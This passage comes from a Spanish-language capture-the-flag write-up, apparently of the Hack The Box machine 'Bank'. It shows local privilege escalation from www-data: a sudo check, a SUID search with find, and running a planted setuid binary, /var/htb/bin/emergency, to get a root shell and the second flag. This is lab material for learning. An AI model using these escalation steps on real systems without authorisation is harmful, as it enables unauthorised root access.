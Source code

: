 ```ruby
www-data@bank:/home/chris$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- Con `sudo -l ` vemos que permisos de sudo tenemos, y no tenemos permisos.

```ruby
www-data@bank:/home/chris$ sudo -l
[sudo] password for www-data: 
```
- Con `find / -perm -4000 2>/dev/null` buscamos archivos con permisos SUID

```ruby
www-data@bank:/home/chris$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
- si vemos el tipo de archivo que es emergency, es un binario de 32 bit

```ruby
www-data@bank:/home/chris$ file /var/htb/bin/emergency
/var/htb/bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
```
 
```ruby
www-data@bank:/home/chris$ /./var/htb/bin/emergency
# whoami
root
```
- Con solo ejecutar el SUID ya estamos como root
- Obtenemos la segunda flag
